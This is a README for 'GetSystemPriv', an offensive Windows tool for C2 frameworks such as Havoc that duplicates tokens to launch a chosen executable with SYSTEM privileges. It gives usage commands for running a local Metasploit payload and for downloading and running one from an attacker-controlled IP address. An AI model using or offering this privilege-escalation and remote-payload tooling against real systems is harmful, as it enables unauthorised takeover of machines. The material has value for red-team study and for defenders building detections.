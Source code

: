 # GetSystemPriv

Application for token duplication running chosen local executable file or by downloading one from given URL.
I'm a big fan of running *getsystem* while using Meterpreter and seeing SYSTEM context in the list of sessions, but it kind of annoys me when I don't have it using Havoc or any other C2. That's why I created GetSystemPriv. 
> This project is based on [TokenDuplicator](https://github.com/magnusstubman/tokenduplicator) by Magnus Stubman. 

## Usage
Local file execution:
`GetSystemPriv.exe local C:\Users\test\Desktop\msf.exe`
Remote file execution:
`GetSystemPriv.exe net http://10.10.14.15/msf.exe`

## Images
![screenshot - terminal](images/screen_terminal.png)
![screenshot - havoc](images/screen_havoc.png)
